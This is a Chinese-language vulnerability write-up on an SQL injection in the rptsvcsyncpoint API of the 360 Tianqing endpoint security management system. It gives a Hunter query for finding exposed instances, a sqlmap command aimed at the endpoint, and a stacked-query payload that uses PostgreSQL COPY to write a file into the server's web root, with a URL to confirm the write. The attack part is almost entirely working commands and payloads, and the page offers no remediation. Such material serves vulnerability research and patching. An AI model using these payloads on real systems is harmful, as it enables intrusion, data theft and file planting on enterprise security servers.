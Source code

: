 # 360天擎终端安全管理系统rptsvcsyncpoint存在SQL注入漏洞

# 一、漏洞简介
天擎终端安全管理系统是面向政企单位推出的一体化终端安全产品解决方案。该产品集防病毒、终端安全管控、终端准入、终端审计、外设管控、EDR等功能于一体，兼容不同操作系统和计算平台，帮助客户实现平台一体化、功能一体化、数据一体化的终端安全立体防护;奇安信360天擎rptsvcsyncpoint存在SQL注入漏洞，攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 360天擎终端安全管理系统

# 三、资产测绘
+ hunter`app.name=="天擎终端安全管理系统"`
+ 特征

![1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695.png](./img/qLEg5VoI2Ok1Dnar/1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695-979071.png)

# 四、漏洞复现
sqlmap

```plain
python3 sqlmap.py -u "https://xx.xx.xx.xx/api/dp/rptsvcsyncpoint?ccid=1" --batch --skip-waf
```

![1699458415629-df2c5e1b-d4b0-445d-a456-bafb539988d5.png](./img/qLEg5VoI2Ok1Dnar/1699458415629-df2c5e1b-d4b0-445d-a456-bafb539988d5-034790.png)

文件写入

```plain
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('123456~');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\stc.txt';drop table O;--
```

![1699458549014-42cd0a5a-b665-4a50-ad55-9d83aa571b4c.png](./img/qLEg5VoI2Ok1Dnar/1699458549014-42cd0a5a-b665-4a50-ad55-9d83aa571b4c-448311.png)

写入文件位置

```plain
http://xx.xx.xx.xx/stc.txt
```

![1699458583924-6db94f8b-bbe7-4f84-b5b6-a44495337abb.png](./img/qLEg5VoI2Ok1Dnar/1699458583924-6db94f8b-bbe7-4f84-b5b6-a44495337abb-225246.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bmxoqmgt074w5sod>